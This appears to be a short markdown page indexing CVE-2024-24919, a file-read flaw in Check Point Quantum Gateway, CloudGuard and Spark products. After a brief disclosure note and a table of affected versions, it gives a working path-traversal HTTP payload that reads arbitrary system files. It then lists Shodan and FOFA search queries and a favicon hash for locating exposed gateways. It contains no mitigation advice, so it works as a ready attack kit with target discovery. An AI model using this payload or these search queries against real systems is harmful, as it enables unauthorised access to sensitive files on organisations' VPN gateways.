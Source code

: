 ```yaml
---
title: (CPSSLNE) CVE-2024-24919 - Databased Index
permalink: /cpsslne
---
```


<link rel="stylesheet" type="text/css" href="css/styles.css">

Vulnerability disclosed by [Checkpoint](https://blog.checkpoint.com/security/enhance-your-vpn-security-posture) on May 27th 2024. 

This vulnerability, when taken advantage of, grants the attacker read access to system files.

|Products Affected| Versions Affected|
|------------------|-----------------|
|Check Point Quantum Gateway| R81.20, R81.10, R81, R80.40|
|CloudGuard Network| R81.20, R81.10, R81, R80.40|
|Check Point Spark|R81.10, R80.20|

# Payload
```
POST /clients/MyCRL HTTP/1.1
Host: <Host>

aCSHELL/../../../../../../../<File>
```

# Lookup Methods
> Favicon Hash: 794809961


|Shodan|FOFA|
|-------|----|
|title:"Check Point" ssl:"target"|title="Check Point SSL Network Extender"|
|http.favicon.hash:794809961||
